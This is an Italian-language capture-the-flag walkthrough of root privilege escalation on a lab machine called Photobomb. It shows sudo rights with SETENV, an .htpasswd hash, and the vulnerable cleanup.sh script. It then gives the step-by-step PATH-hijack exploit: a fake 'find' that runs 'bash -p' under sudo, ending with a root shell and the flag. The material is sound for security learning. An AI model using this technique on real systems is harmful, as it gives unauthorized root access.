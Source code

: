 1) Vediamo i privilegi sudo che ha wizard:
wizard@photobomb:~$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

------------------------------------------------------------

 wizard@photobomb:~/photobomb$ cat .htpasswd
    cat .htpasswd
    pH0t0:$apr1$dnyF00ZD$9PifZwUxL/J0BCS/wTShU1

--------------------------------------------------

2) Apriamo il file cleanup.sh: cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

3) Lo script in questione presenta una vulnerabilità. In effetti, l'utilità "find" non è definita con il suo percorso assoluto, potremo abusarne per ottenere una shell di root. Creiamo uno script Bash sotto il nome di find in "/tmp". Quest'ultimo copierà bash e gli assegnerà il setuid Root.

4) stampare  un elenco delle variabili di ambiente correnti: env
SHELL=/bin/bash
PWD=/tmp
LOGNAME=wizard
HOME=/home/wizard
LANG=en_US.UTF-8
LS_COLORS=
INVOCATION_ID=524884486caa4677816304b64f18dca4
LESSCLOSE=/usr/bin/lesspipe %s %s
LESSOPEN=| /usr/bin/lesspipe %s
USER=wizard
SHLVL=2
JOURNAL_STREAM=9:32090
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/home/wizard/photobomb
_=/usr/bin/env

5) Nel file find ci scriviamo dentro:  bash -p
6) A noi ci interessa la variabile PATH, riscriviamola per spwanarci una shell root: 
sudo PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin /opt/cleanup.sh

7)  Poi navighiamo nel filesystem e prendiamo la root flag: 
whoami
root
pwd
/home/wizard/photobomb
cd /root
ls
root.txt
cat root.txt
8084adb6cdd9b7a889e36f37915e9496


